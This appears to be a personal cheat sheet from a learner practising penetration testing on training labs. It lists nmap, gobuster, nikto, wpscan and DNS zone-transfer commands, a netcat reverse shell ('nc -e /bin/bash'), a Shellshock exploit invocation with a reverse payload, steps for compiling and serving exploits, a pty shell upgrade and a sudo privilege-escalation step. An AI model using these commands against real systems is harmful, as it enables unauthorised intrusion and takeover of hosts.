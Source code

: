 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host ip and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 99999 host 
nmap -p- -sV port scanning ant its version
nmap -sV -sC -v From your scans, what version is FTP running on the target?
nmap -sS -p- -Pn --min-rate host ip for            to find all open ports
nmap -sC -sV -p htb
 nmap --script vuln -A 10.129.123.49 for finding all vulnerablitie


when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh
gobuster  dir -u  http://10.129.123.49 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log -t 50


nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHTTPServer 80

chmod +x exploit for giving a permission(x using execute)

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands

xkcd for explain vuln with nice comic



wpscan --url http://10.129.96.68 -e u,p --plugins-detection aggressive 


wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  


dnszone using:
dig -t NS(name server)
dig axfr @nameserver nameserver

nslookup for finding nameserver

check the command injection

 python upgrade shell       python -c 'import pty; pty.spawn("/bin/bash")'
 
 ctrl u (for inspect source)
 
 ubuntu apache  2.2.22 precision for finding last ubuntu update
 and next gonna here  from mozilla: ubuntu release precise
